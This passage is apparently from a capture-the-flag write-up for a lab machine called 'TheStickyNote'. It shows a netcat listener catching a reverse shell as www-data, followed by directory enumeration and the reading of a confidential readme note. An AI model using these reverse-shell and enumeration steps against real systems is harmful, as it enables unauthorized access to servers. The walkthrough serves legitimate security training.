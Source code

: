 ```powershell
┌──(kali㉿kali)-[~/Desktop/CTFs/THM/TheStickyNote]
└─$ rlwrap nc -lnvp 1234      
listening on [any] 1234 ...
connect to [10.11.27.117] from (UNKNOWN) [10.10.51.33] 60564
Linux TheStickyNote 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:44:55 up  1:58,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

BINGO! We succesfully got `w3 shell`. On further enumerating we found.

- In home directory we got a user named as - `jeffrey`
- w3 is not added to the sudoers

## Lateral Movement

Nothing specific. Lets get to our web directory to make sure we are not missing anything.

```bash
$ ls -la
total 24
drwxr-xr-x 4 root    root    4096 Feb 25 22:33 .
drwxr-xr-x 3 root    root    4096 Feb 25 12:39 ..
drwxrwxrwx 3 root    root    4096 Feb 26 00:38 bug
drwxr-xr-x 2 root    root    4096 Feb 26 00:03 c0NfiD3ntiA1
-rw-rw-r-- 1 jeffrey jeffrey 1914 Feb 25 13:12 index.html
-rw-r--r-- 1 root    root      20 Feb 25 14:15 info.php
```

I guess they got some ==confidential== stuff on their web server. Lets enumerate.

```bash
drwxr-xr-x 2 root root    4096 Feb 26 00:03 .
drwxr-xr-x 4 root root    4096 Feb 25 22:33 ..
-rw-r--r-- 1 root root 1609271 Feb 26 00:03 Level 3 Alert.eml
-rw-r--r-- 1 root root     324 Feb 25 23:46 readme.txt
```

`readme.txt` sounds something good, lets concat it.

```
$ cat readme.txt
Hello James,

My friend Alice(HR Department Head) had proposed me today, so I had to
get undercover for sometime. And I am changing my identity and leaving this job
for the same. I was assigned to send an email to jeffrey, I have drafted and 
saved it in the same folder. Can you please email him on my behalf.

~Web Dev
```
